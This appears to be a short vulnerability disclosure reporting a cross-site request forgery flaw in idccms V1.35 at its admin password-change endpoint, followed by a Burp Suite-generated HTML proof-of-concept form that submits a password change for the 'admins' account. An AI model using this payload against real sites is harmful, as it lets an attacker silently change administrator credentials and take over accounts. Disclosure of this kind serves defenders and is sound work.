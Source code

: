 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_cl.php?mudi=revPwd

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_cl.php?mudi=revPwd" method="POST">
      <input type="hidden" name="judUsername" value="true" />
			<input type="hidden" name="username" value="admins" />
			<input type="hidden" name="userpwd0" value="" />
			<input type="hidden" name="userpwd" value="" />
			<input type="hidden" name="userpwd2" value="" />
			<input type="hidden" name="x" value="71" />
			<input type="hidden" name="y" value="24" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
